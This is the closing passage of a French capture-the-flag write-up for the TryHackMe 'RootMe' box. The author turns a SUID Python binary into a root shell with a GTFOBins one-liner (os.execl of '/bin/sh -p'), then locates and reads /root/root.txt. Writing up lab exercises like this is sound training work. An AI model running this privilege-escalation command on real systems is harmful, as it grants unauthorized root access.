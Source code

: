 Parfait, plus qu'à trouver une commande qui me permette de passer root via python.

https://gtfobins.github.io/gtfobins/python/

> python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
>

Cette commande permet l'escalade de privilège ainsi que le maintien d'accès, testons la!

```
www-data@rootme:/var/www/html/uploads$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
<hon -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
```

Yes! Elle m'a ouvert un nouveau shell en tant que root.

Plus qu'à trouver le flag qui se trouve dans le fichier root.txt.

> find / -name root.txt 2>/dev/null
>

```
find / -name root.txt 2>/dev/null
/root/root.txt
```

> cat /root/root.txt
>

```
cat /root/root.txt
THM{XXXXXXXXXXXXXXX}
```



Celà conclu donc la box <u>RootMe</u> sur la plateforme <u>TryHackMe</u>.

<u>Ethost.</u>